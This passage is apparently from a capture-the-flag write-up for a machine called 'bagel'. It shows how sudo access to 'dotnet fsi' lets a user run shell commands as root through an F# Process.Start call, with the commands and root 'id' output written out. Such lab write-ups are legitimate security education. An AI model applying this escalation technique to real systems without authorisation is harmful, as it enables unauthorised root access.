     SDK commands:
      add               Add a package or reference to a .NET project.
      build             Build a .NET project.
      build-server      Interact with servers started by a build.
      clean             Clean build outputs of a .NET project.
      format            Apply style preferences to a project or solution.
      help              Show command line help.
      list              List project references of a .NET project.
      msbuild           Run Microsoft Build Engine (MSBuild) commands.
      new               Create a new .NET project or file.
      nuget             Provides additional NuGet commands.
      pack              Create a NuGet package.
      publish           Publish a .NET project for deployment.
      remove            Remove a package or reference from a .NET project.
      restore           Restore dependencies specified in a .NET project.
      run               Build and run a .NET project output.
      sdk               Manage .NET SDK installation.
      sln               Modify Visual Studio solution files.
      store             Store the specified assemblies in the runtime package store.
      test              Run unit tests using the test runner specified in a .NET project.
      tool              Install or manage tools that extend the .NET experience.
      vstest            Run Microsoft Test Engine (VSTest) commands.
      workload          Manage optional workloads.

    Additional commands from bundled tools:
      dev-certs         Create and manage development certificates.
      fsi               Start F# Interactive / execute F# scripts.
      sql-cache         SQL Server cache command-line tools.
      user-secrets      Manage development user secrets.
      watch             Start a file watcher that runs a command when files change.

    Run 'dotnet [command] --help' for more information on a command.



There's a lot possible here, and several ways to exploit this.

#### F# Execution

In scrolling through these, `fsi` jumps out as an interesting command -
"Start F# Interactive / execute F# script".

A simple F# script to get a shell is
`System.Diagnostics.Process.Start("id").WaitForExit();` This will run
whatever shell command it's given:



    [developer@bagel ~]$ sudo dotnet fsi

    Microsoft (R) F# Interactive version 12.0.0.0 for F# 6.0
    Copyright (c) Microsoft Corporation. All Rights Reserved.

    For help type #help;;

    > System.Diagnostics.Process.Start("id").WaitForExit();;     
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    val it: unit = ()
